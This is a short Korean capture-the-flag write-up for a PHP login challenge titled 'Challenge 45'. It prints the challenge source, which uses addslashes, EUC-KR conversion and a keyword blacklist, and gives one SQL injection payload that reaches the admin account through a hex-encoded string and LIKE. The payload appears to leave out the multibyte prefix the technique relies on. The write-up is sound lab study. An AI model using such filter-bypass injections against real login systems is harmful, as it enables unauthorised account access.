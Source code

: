 # 문제

- 소스

  ```php
  <?php
    include "../../config.php";
    if($_GET['view_source']) view_source();
  ?><html>
  <head>
  <title>Challenge 45</title>
  </head>
  <body>
  <h1>SQL INJECTION</h1>
  <form method=get>
  id : <input name=id value=guest><br>
  pw : <input name=pw value=guest><br>
  <input type=submit>
  </form>
  <hr><a href=./?view_source=1>view-source</a><hr>
  <?php
    if($_GET['id'] && $_GET['pw']){
      $db = dbconnect();
      $_GET['id'] = addslashes($_GET['id']);
      $_GET['pw'] = addslashes($_GET['pw']);
      $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
      if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['id'])) exit();
      if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['pw'])) exit();
      $result = mysqli_fetch_array(mysqli_query($db,"select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
      if($result){
        echo "hi {$result['id']}";
        if($result['id'] == "admin") solve(45);
      }
      else echo("Wrong");
    }
  ?>
  </body>
  </html>
  ```
  
- id, pw를 입력받는다.

- addslashes 가 되어있고, 멀티바이트 인코딩 된다.

- admin 일 경우 클리어




#  풀이

- 필터가 되는것을 피해서 id 가 admin인 계정으로 로그인시키면 된다.
- `123'||id like 0x61646d696e`
- 점수 배점이 잘못된것 같다...
- 끝




# 알게된 것

